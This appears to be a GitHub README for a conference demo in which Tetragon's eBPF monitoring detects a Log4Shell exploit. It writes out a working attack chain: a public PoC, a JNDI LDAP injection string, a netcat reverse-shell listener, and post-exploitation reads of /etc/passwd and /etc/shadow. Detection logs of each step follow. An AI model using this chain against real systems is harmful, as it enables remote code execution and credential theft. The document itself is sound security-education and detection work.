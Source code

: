 # The Next Log4jshell?! Preparing for CVEs with eBPF!

This repository contains the demo and the corresponding instructions that was presented at
SCALE 20x, Pasadena during the `The Next Log4jshell?! Preparing for CVEs with eBPF!` presentation.

## Environment

### Setup Tetragon as a systemd managed service

Setup Ubuntu VM on Cloud (I specifically used GKE and Ubuntu LTS 22.04). Set the external IP to static IP
instead of an ephemeral one, it'll be reachable from the outside later.

Install Tetragon as a standalone systemd managed service on the Ubuntu VM. For the instructions, 
follow this [guide](https://github.com/cilium/tetragon/tree/main/docs/deployment/package), but do not
start the service until the configurations are not completed.

Place the following configuration files under the `/etc/tetragon/tetragon.conf.d/*`:
```bash
root@scale-2023-log4j-ebpf-vm:/etc/tetragon/tetragon.conf.d# ls -l
total 16
-rw-r--r-- 1 root root 105 Mar  4 16:04 export-allowlist
-rw-r--r-- 1 root root  35 Mar  4 16:04 export-filename
-rw-r--r-- 1 root root  31 Mar  4 16:04 hubble-lib
-rw-r--r-- 1 root root  16 Mar  4 16:04 server-address
-rw-r--r-- 1 root root  16 Mar  4 16:04 config-file
```

Where the content of each file is
```bash
cat export-allowlist
{"event_set":["PROCESS_TRACEPOINT", "PROCESS_LOADER", "PROCESS_EXIT", "PROCESS_EXEC", "PROCESS_KPROBE"]}
root@scale-2023-log4j-ebpf-vm:/etc/tetragon/tetragon.conf.d# cat export-filename
/var/log/tetragon/tetragon.log
root@scale-2023-log4j-ebpf-vm:/etc/tetragon/tetragon.conf.d# cat hubble-lib
/usr/local/lib/hubble-fgs/bpf/
root@scale-2023-log4j-ebpf-vm:/etc/tetragon/tetragon.conf.d# cat server-address
localhost:54321
root@scale-2023-log4j-ebpf-vm:/etc/tetragon/tetragon.conf.d# cat config-file
/etc/tetragon/policy/securitypolicy.yaml
```

Then place the `securitypolicy.yaml` file under the `/etc/tetragon/policy` directory.

### Download Log4jshell PoC

For the PoC, clone the following repository, and follow the remaining instructions from there:
```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
```

## Demo 

(Terminal 0): Start Tetragon:
```bash
sudo systemctl daemon-reload
sudo systemctl start tetragon-enterprise
```

(Terminal 0): Start observing the events from Tetragon:
```bash 
sudo hubble-enterprise getevents -o compact
```

## Demo

(Terminal 1): Run the vulnerable web application as a container on the host network, so we will make sure it uses
the Ubuntu VMs external static IP that we setup previously.

```bash
docker run --network host -d quay.io/natalia-2-pilot/log4j-shell-webapp
```

If we open the web browser and type `<external_ip>:8080`, in my case it's `http://34.118.100.209:8080/`,
then we should be able to see the Login page of the vulnerable application:

![Screenshot](log4j_login.png)

(Terminal 2): Run the `netcat` listener that listens on port `9001` and accepts the reverse shell
connection:

```bash
nc -lvnp 9001
Listening on 0.0.0.0 9001
```

(Terminal 1): Start the POC exploit, that creates the malicious java class and sets up an 
LDAP server which will listen on port `1389`.

```bash
python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

(Terminal 1): Paste the created JNDI lookup string `${jndi:ldap://localhost:1389/a}` to either the username or
password field of the web application, then click on `Login`:

![Screenshot](log4j_malicious_string.png)

(Terminal 1) You should see that the JNDI lookup actually connected to the LDAP, server and downloaded the
malicious `Exploit.class` Java class:

```bash
Send LDAP reference result for a redirecting to http://localhost:8000/Exploit.class
127.0.0.1 - - [04/Mar/2023 15:19:05] "GET /Exploit.class HTTP/1.1" 200 -
```

(Terminal 2) which then sent the reverse shell to the netcat listener:
```bash
root@scale-2023-log4j-ebpf-vm:/home/natalia# nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 53566
```

(Terminal 2): As a verification we can list the files in the current directory:
```
pwd
/usr/local/tomcat
ls -l
total 124
-rw-r--r-- 1 root root  57011 Jun  9  2016 LICENSE
-rw-r--r-- 1 root root   1444 Jun  9  2016 NOTICE
-rw-r--r-- 1 root root   6739 Jun  9  2016 RELEASE-NOTES
-rw-r--r-- 1 root root  16195 Jun  9  2016 RUNNING.txt
drwxr-xr-x 2 root root   4096 Aug 31  2016 bin
drwxr-xr-x 1 root root   4096 Mar  4 10:21 conf
drwxr-sr-x 3 root staff  4096 Aug 31  2016 include
drwxr-xr-x 2 root root   4096 Aug 31  2016 lib
drwxr-xr-x 1 root root   4096 Mar  4 10:21 logs
drwxr-sr-x 3 root staff  4096 Aug 31  2016 native-jni-lib
drwxr-xr-x 2 root root   4096 Aug 31  2016 temp
drwxr-xr-x 1 root root   4096 Mar  4 10:21 webapps
drwxr-xr-x 1 root root   4096 Mar  4 10:21 work
```

(Terminal 2): Or read the content of `/etc/passwd` or `/etc/shadow`:
```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:104:107::/var/run/dbus:/bin/false

cat /etc/shadow
root:*:17043:0:99999:7:::
daemon:*:17043:0:99999:7:::
bin:*:17043:0:99999:7:::
sys:*:17043:0:99999:7:::
sync:*:17043:0:99999:7:::
games:*:17043:0:99999:7:::
man:*:17043:0:99999:7:::
lp:*:17043:0:99999:7:::
mail:*:17043:0:99999:7:::
news:*:17043:0:99999:7:::
uucp:*:17043:0:99999:7:::
proxy:*:17043:0:99999:7:::
www-data:*:17043:0:99999:7:::
backup:*:17043:0:99999:7:::
list:*:17043:0:99999:7:::
irc:*:17043:0:99999:7:::
gnats:*:17043:0:99999:7:::
nobody:*:17043:0:99999:7:::
systemd-timesync:*:17043:0:99999:7:::
systemd-network:*:17043:0:99999:7:::
systemd-resolve:*:17043:0:99999:7:::
systemd-bus-proxy:*:17043:0:99999:7:::
messagebus:*:17044:0:99999:7:::
```

Starting from the beginning, first we can see that the vulnerable web application reached out to the 
LDAP server on port `1389` and downloaded the `Exploit.class` java file:

```bash
🔌 connect  /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:19685 -> 127.0.0.1:1389
🔌 connect  /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:58085 -> 127.0.0.1:8000
🧹 close    /usr/bin/python3 tcp 127.0.0.1:16415 -> 127.0.0.1:58850
🧹 close    /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:58085 -> 127.0.0.1:8000
```

Then we can see the connection to `9001` from the container of the web application and that 
the reverse shell was sent. And then we can see that the `/bin/sh` process started:
```bash
🚀 process  /bin/sh
🔌 connect  /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:31405 -> 127.0.0.1:9001
🧹 close    /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 10.186.0.24:36895 -> 5.204.80.64:60463
```

```bash
🚀 process  /bin/ls -l
📬 open     /bin/ls /etc/passwd
📪 close    /bin/ls
💥 exit     /bin/ls -l 0
```

```bash
🚀 process  /bin/cat /etc/passwd
📬 open     /bin/cat /etc/passwd
📪 close    /bin/cat
💥 exit     /bin/cat /etc/passwd 0
```

```bash
🚀 process  /bin/cat /etc/shadow
📬 open     /bin/cat /etc/shadow
📪 close    /bin/cat
💥 exit     /bin/cat /etc/shadow 0
```

```bash
🚀 process  /usr/bin/vi /etc/passwd
📬 open     /usr/bin/vi /etc/passwd
📪 close    /usr/bin/vi
📬 open     /usr/bin/vi /etc/passwd
📪 close    /usr/bin/vi
📬 open     /usr/bin/vi /etc/passwd
📪 close    /usr/bin/vi
📬 open     /usr/bin/vi /etc/passwd
📝 write    /usr/bin/vi /etc/passwd 1253 bytes
📪 close    /usr/bin/vi
💥 exit     /usr/bin/vi /etc/passwd 0
```